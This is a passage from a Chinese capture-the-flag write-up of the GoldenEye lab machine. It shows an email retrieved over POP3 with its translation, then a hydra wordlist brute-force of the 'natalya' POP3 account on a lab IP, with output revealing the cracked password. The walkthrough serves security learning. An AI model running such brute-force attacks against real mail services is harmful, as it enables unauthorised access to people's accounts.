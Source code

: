 ```
RETR 3
+OK 921 octets
Return-Path: <alec@janus.boss>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from janus (localhost [127.0.0.1])
        by ubuntu (Postfix) with ESMTP id 4B9F4454B1
        for <boris>; Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
Message-Id: <20180425025235.4B9F4454B1@ubuntu>
Date: Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
From: alec@janus.boss

Boris,

Your cooperation with our syndicate will pay off big. Attached are the final access codes for GoldenEye. Place them in a hidden file within the root directory of this server then remove from this email. There can only be one set of these acces codes, and we need to secure them for the final execution. If they are retrieved and captured our plan will crash and burn!

Once Xenia gets access to the training site and becomes familiar with the GoldenEye Terminal codes we will push to our final stages....

PS - Keep security tight or we will be compromised.
```

> 鲍里斯，
>
> 您与我们辛迪加的合作将获得丰厚回报。附件是 GoldenEye 的最终访问代码。将它们放在此服务器根目录中的隐藏文件中，然后从该电子邮件中删除。这些访问代码只能有一组，我们需要保护它们以供最终执行。如果他们被找回并被俘虏，我们的计划将会崩溃和燃烧！
>
> 一旦 Xenia 进入培训站点并熟悉 GoldenEye 终端代码，我们将进入最后阶段......
>
> PS - 保持安全，否则我们将受到威胁。

在邮件找到`natalya`用户，对这个用户进行爆破。

```
┌──(root💀kali)-[~/Desktop]
└─# hydra -l natalya -P /usr/share/wordlists/fasttrack.txt -t20 192.168.32.217 -s55007 -I pop3
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-09 11:29:03
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 20 tasks per 1 server, overall 20 tasks, 222 login tries (l:1/p:222), ~12 tries per task
[DATA] attacking pop3://192.168.32.217:55007/
[STATUS] 100.00 tries/min, 100 tries in 00:01h, 122 to do in 00:02h, 20 active
[55007][pop3] host: 192.168.32.217   login: natalya   password: bird
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-09 11:30:44

```
